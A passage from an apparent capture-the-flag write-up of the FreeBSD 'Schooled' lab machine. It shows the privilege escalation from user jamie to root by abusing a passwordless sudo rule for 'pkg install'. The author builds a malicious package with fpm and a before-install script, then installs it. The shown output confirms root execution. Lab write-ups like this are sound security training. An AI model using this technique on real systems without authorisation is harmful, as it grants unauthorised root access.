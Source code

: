 ```none
If you need to ask a question on the FreeBSD-questions mailing list then

        https://www.FreeBSD.org/doc/en_US.ISO8859-1/articles/\
                freebsd-questions/index.html

contains lots of useful advice to help you get the best results.
jamie@Schooled:~ $ id
uid=1001(jamie) gid=1001(jamie) groups=1001(jamie),0(wheel)
jamie@Schooled:~ $ wc -c user.txt 
      33 user.txt
```

## Privesc: `jamie` to `root`

I had a feeling this final privesc would be something related to `sudo` - not sure why, just a gut feeling. Anyway, I started linpeas on the target as the `jamie` user. To no surprise, there was an interesting `sudo` entry to allow running as `root` without a password for the `pkg` command.

```none
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
User jamie may run the following commands on Schooled:                                                              
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

I had a look at the [GTFOBins page for `pkg`](https://gtfobins.github.io/gtfobins/pkg/#sudo). This seemed pretty straightforward given the amazing help GTFOBins provides. Started by cloneing the `fpm` software which will help build a package for us.

```none
git clone https://github.com/jordansissel/fpm.git
cd fpm
sudo gem install fpm
```

From my very brief read, the [`fpm` docs](https://github.com/jordansissel/fpm) state that this software can help build packages for a variety of systems. Sounds very cool, and should probably investigate it deeper at a later date. Anyway, we can use `fpm` to build a FreeBSD package, then upload it to the target and execute it using `sudo`. For the first iteration, I kept the same options as detailed on HackTricks, which simply ran the `id` command.

```none
TF=$(mktemp -d)
echo 'id' > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
```

I then uploaded it to the target system and installed it using `pkg`.

```none
jamie@Schooled:~ $ sudo pkg install -y --no-repo-update ./x-1.0.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        x: 1.0

Number of packages to be installed: 1
[1/1] Installing x-1.0...
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
Extracting x-1.0:   0%
pkg: File //tmp/tmp.sBFhtBz48X/x.sh not specified in the manifest
Extracting x-1.0: 100%
```